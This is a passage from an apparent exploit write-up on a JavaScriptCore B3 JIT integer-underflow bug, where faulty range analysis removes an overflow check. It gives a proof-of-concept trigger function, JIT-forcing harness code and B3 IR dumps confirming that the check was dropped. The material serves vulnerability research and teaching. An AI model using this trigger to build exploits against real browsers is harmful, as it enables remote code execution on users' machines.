 Using the right operand as `-0x80000000` (32-bit INT_MIN), the ranges generated for the left and right operands are `[0, 1]` and `[-0x80000000]` respectively. 

```js
let b = a | 0;
let c = b & 2;
let d = c + -1;
let e = d + -0x80000000;
```

Here, `couldOverflowAdd` returns False, as the addition of all combinations of values in these ranges will not overflow. 

This is where the bug is exploitable - the range for the left operand is actually `[-1, 1]`, and `-1 + -0x80000000` can cause an underflow!

We can confirm this assumption by using the following code snippet:

```js
function hax(a) {
    let b = a | 0;
    let c = b & 2;
    let d = c + -1;
    let e = d + -0x80000000;
    return e;
}
function main() {
    for(let i = 0; i < 100000; ++i) {
        hax(2);
    }
}
noInline(hax);
noDFG(main);
noFTL(main);
main();
```

Small note: JIT compiling this with an argument of `2` works better, as it never triggers the vulnerable case (when the result of `b & 2 == 0`)

Taking a look at the B3 IR generated to confirm our assumptions (you can do this by using the flag `--dumpB3GraphAtEachPhase=true`):

```
B3 after reduceDoubleToFloat, before reduceStrength:
...
b3      Int32 b@35 = CheckAdd(b@33:WarmAny, $-1(b@34):WarmAny, b@33:ColdAny, generator = 0x7f551e032750, earlyClobbered = [], lateClobbered = [], usedRegisters = [], ExitsSideways|Reads:Top, D@41)
b3      Int32 b@37 = CheckAdd(b@35:WarmAny, $-2147483648(b@36):WarmAny, b@35:ColdAny, generator = 0x7f551e0327a0, earlyClobbered = [], lateClobbered = [], usedRegisters = [], ExitsSideways|Reads:Top, D@45)
...
B3 after reduceStrength, before eliminateCommonSubexpressions:
...
b3      Int32 b@23 = Add(b@33, $2147483647(b@37), D@45)
...
```
